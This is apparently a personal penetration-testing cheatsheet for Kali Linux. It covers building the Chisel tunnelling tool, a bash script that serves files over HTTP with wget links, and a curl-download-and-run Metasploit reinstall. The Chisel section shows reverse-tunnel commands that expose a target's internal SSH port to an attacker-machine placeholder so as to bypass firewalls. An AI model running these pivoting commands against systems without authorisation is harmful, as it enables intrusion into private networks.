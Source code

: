 ```yaml
---
title: "Kali Tricks"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - Linux
tags:
  - cheatsheet
  - kali
---
```



## Sections

### Kali
* [Tips and Tricks](#tips-and-tricks)
* [Install Apps Universally](#install-apps-universally)

### Kali app updates
* [Metasploit update](#metasploit)



## Tips and Tricks
### Chisel Quick guide

<details>
  <summary>Chisel Info - Click here</summary>
  
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

</details>

Install Chisel
* cd to /opt
```console
cd /opt
```
* clone the repo
```console
git clone https://github.com/jpillora/chisel.git
```
* cd to the cloned repo
```console
cd chisel
```
sync go vendor modules, seems to be needed to build for windows
```console
go mod vendor
```
build Linux binary:
```console
go build -ldflags "-s -w"
```
build Windows binary
```console
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
```
  
Usage: [Chisel Github](https://github.com/jpillora/chisel)

(*upload chisel to the attacking machine)    

Use chisel to reverse connect back to the other hidden localhost port for ssh 22 using port 9001

```console
$ ./chisel server -p 9001 --reverse

$ ./chisel client 10.8.0.116:9001 R:127.0.0.1:9002:172.17.0.1:22
# ./chisel client YOUR-IP-HERE:9001 R:127.0.0.1:9002:ATTACKER-MACHINE-IP:22
```

### Install apps universally

[Github Python and Bash](https://github.com/AssassinUKG/pythonSimpleServer) 
To make an application or script available system-wide,
you usually copy them to /usr/local/bin

**Example:** If we want to get our IP address,
List files and then start a python http server to serve the files.
We can!

1. Make a script (or get an App you want), I've called my script: pss.sh (python start server.sh)
Script Details:-
- Select IP if more then 1 interface (eth0, tun0)
- List files in directory with wget links and your current IP
- Shows all files in the current directory

```bash
#!/bin/bash

GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

echo -e "\n$CYAN""Python FileServer$RES"
echo -e "Created By$GN Ac1d $RES\n"

HN="hostname -I"
res=$(eval $HN)
arrIN=(${res// / })
IP=""
echo "${arrIN[@]}"
if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which IP address?: '
        options=("Option 1: ${arrIN[0]}" "Option 2: ${arrIN[1]}" "Option 3: ${arrIN[2]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "Option 1: ${arrIN[0]}")
                        IP="${arrIN[0]}"
                        #echo "you chose choice 1"
                        break
                ;;

                "Option 2: ${arrIN[1]}")
                        IP="${arrIN[1]}"
                        #echo "you chose choice 2"
                        break
                ;;
                "Option 3: ${arrIN[2]}")
                        IP="${arrIN[2]}"
                        break
                ;;      
                "Quit")
                exit
                ;;
                *) echo "invalid option $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo "IP: "$IP
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget ${IP##*( )}/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo -e "\nCurrent Directory Contents"
ls --color $PWD
echo -e "\nStarting Server"
sudo python3 -m http.server 80  -d .

```

2. Give it the correct file permissions. 
```bash
$ chmod +x pss.sh
```

3. Then copy the file/script to /usr/local/bin 
```bash
$ cp pss.sh /usr/local/bin/
```

4. Call your file from anywhere 
```bash
$ pss.sh
```

5. Test your new tools and scripts out from any directory. 
![](/assets/images/pss.png)

Image for choice selection.
![](/assets/images/pss2.png)

## Kali app updates
### Metasploit
Remove old metasploit 
```console
sudo apt remove metasploit-framework -y
```
Install new version, Run 'msfconsole' after install
```console
sudo curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```





